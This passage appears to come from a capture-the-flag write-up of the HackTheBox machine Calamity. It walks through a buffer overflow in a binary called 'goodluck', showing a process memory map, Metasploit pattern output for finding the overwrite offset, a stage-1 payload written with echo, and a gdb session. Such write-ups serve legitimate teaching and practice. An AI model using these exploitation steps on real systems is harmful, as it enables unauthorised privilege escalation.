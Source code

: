 ```
b7fcc000-b7fcd000 rw-p 001b1000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7fcd000-b7fd0000 rw-p 00000000 00:00 0 
b7fd6000-b7fd8000 rw-p 00000000 00:00 0 
b7fd8000-b7fda000 r--p 00000000 00:00 0          [vvar]
b7fda000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
b7fdb000-b7ffd000 r-xp 00000000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
b7ffd000-b7ffe000 rw-p 00000000 00:00 0 
b7ffe000-b7fff000 r--p 00022000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
b7fff000-b8000000 rw-p 00023000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
bfedf000-c0000000 rw-p 00000000 00:00 0          [stack]

Filename:

```
***Update 2 Jan 2022***: Someone pointed out that the script above isn’t working completely reliably, and it’s because of how I’m calling `recv` instead of `recvuntil`. I’ve updated the script replacing `print(goodluck.recv(4096).decode())` with `resp = goodluck.recvuntil(b"Filename: ").decode()`. [This video](https://www.youtube.com/watch?v=79mUGY3-dJQ) shows how I figured that out:

#### Find Offset in debug

I left off at a file prompt, but this time I can give a file and it will read 100 bytes into a 64 byte buffer. I’m not just messing with EBX here, but I should be able to overwrite the return address and get more control. First, I need to find the offset to the overwrite.

I’ll use `msf-pattern_create` to create a pattern:

```

root@kali# msf-pattern_create -l 120
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9

```

I need to run in `gdb` to get EIP when this crashes. I could run the exploit locally, or just do a manual exploitation on Calamity. I opted for the latter.

I’ll write the stage 1 exploit to a file:

```

xalvas@calamity:~$ echo -en "AAAAAAAA\xf8\x2f\x00\x80" > /tmp/0xdf

```

Now I’ll run `goodluck` in `gdb` up to the leak:

```

xalvas@calamity:~$ gdb -q app/goodluck
Reading symbols from app/goodluck...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/xalvas/app/goodluck 

Filename:  /tmp/0xdf
        -----MENU-----
1) leave message to admin
2) print session ID
3)login (admin only)
4)change user
5)exit

 action: 2

debug info: 0x109616d
        -----MENU-----
1) leave message to admin
```